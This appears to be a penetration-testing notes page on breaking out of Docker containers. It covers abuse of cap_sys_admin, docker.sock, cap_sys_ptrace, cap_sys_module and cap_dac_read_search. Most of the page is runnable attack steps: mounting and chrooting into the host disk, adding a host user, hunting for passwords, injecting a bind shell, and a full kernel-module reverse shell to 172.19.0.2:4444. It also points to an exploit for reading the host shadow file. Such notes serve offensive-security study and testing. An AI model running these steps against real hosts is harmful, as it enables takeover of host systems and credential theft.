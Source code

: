 # Container Breakouts

## cap\_sys\_admin Capability

Check if there is cap\_sys\_admin privileges in docker container.&#x20;

```
capsh --print
```

if you see in the result `cap_sys_admin` then you can continue.

* Mount the root directory of host to container and look for the credentials or config files.&#x20;

```
fdisk -l 
mount /dev/sda /mnt
ls -l /mnt/

chroot /mnt/ bash
find / -name password 2>/dev/null
# and check credentials in root file system.
```

* Scan host machine and look for open ports
  * if there is open ssh port

```
chroot /mnt/ adduser turm
# give the password and it will add user to host system. 
# Then login to ssh port with that user. 
```

## docker.sock&#x20;

In the docker-container, if there is a docker.sock have a symlink to /run/docker.sock then there is possibility to do break out.&#x20;

```
find / -name docker.sock 2>/dev/null

#if you see in the result /run/docker.sock go for that way
```

Now we will create a container inside the docker container and connect it to host



```
docker images
# or pull docker images 
docker run -it -v /:/host/ ubuntu:22.04 bash

# That will give us a shell

cd /host/
chroot ./ bash

#after that part add a user and connect with ssh or find
#find credentials. 
```



## cap\_sys\_ptrace capability

if there is cap\_sys\_ptrace capability, then it is possible to inject process and create a bind shell on host it self then it is possible to jump over there via that port.&#x20;

Exploit that can be found

&#x20;[https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128)

{% embed url="https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c" %}

After that change that shell code inside the c file and later

```
gcc inject.c -o inject`
```

later inject with PID of serveR

```
./inject 1234
```

then connect host machine with bind shell

`nc IP PORT`



## cap\_sys\_module capability

If there is cap\_sys\_module capability inside the docker container, then that breakout can work . This capability allows the process to load kernel modules and manipulate the kernel, which can be exploited to compromise the underlying host system's security.

```
capsh --print
# if you see cap_sys_module 
```

Then check for the IP address of the docker. First of A.B.C.01 is for the host machine itself.

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("Test");
MODULE_DESCRIPTION("Reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.19.0.2/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Then we should create a Makefile to compile kernel module.&#x20;

```
obj-m +=reverse-shell.o
all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```

Make the kernel module.

`make`

Listen on the port in docker container

Then in new terminal&#x20;

`insmod reverse-shell.ko`



## cap\_dac\_read\_search capability

The `cap_dac_read_search` capability is important because it controls a process's ability to read and search directories/files with discretionary access control (DAC) permissions. DAC permissions determine who can access and modify specific files and directories on a system.

```
capsh --print
```

Later check for cap\_dac\_read\_search capability. ([https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3](https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3))

We should use that c code, [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c)

Check also is there any `.dockerinit` file exist.&#x20;

Look which disks are mounted. `mount`

* If there is /etc/ directories mounted change in exploit int main() section and add there these directories.&#x20;

after adding these by using gcc compile the code.&#x20;



So by that you can read shadow file of the host machine. Maybe SSH files or ssh config files of host machine can be read also.&#x20;



## Network namespaces







